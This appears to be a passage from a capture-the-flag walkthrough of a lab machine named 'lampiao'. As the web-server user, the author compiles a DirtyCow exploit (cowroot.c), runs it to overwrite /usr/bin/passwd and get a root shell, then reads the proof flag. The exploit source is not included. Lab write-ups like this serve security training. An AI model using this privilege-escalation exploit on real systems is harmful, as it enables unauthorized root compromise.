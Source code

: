 Compiling the code into an executable:

```
www-data@lampiao:/var/www/html/exploit$ gcc cowroot.c -o dirtycow -pthread
gcc cowroot.c -o dirtycow -pthread
cowroot.c: In function 'procselfmemThread':
cowroot.c:98:9: warning: passing argument 2 of 'lseek' makes integer from pointer without a cast [enabled by default]
         lseek(f,map,SEEK_SET);
         ^
In file included from cowroot.c:27:0:
/usr/include/unistd.h:334:16: note: expected '__off_t' but argument is of type 'void *'
 extern __off_t lseek (int __fd, __off_t __offset, int __whence) __THROW;
                ^
cowroot.c: In function 'main':
cowroot.c:141:5: warning: format '%d' expects argument of type 'int', but argument 2 has type '__off_t' [-Wformat=]
     printf("Size of binary: %d\n", st.st_size);
     ^
```

Running the exploit:

```
www-data@lampiao:/var/www/html/exploit$ ./dirtycow
./dirtycow
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
Size of binary: 45420
Racing, this may take a while..
thread stopped
/usr/bin/passwd overwritten
Popping root shell.
Don't forget to restore /tmp/bak
thread stopped
root@lampiao:/var/www/html/exploit# whoami
whoami
root
```

We get a shell as root! We quickly find our root proof in the root directory:

```
root@lampiao:/var/www/html/exploit# cd /root
cd /root
root@lampiao:/root# cat proof.txt
cat proof.txt
a8798df14bd153a0c972c7bb1bdd5323
```







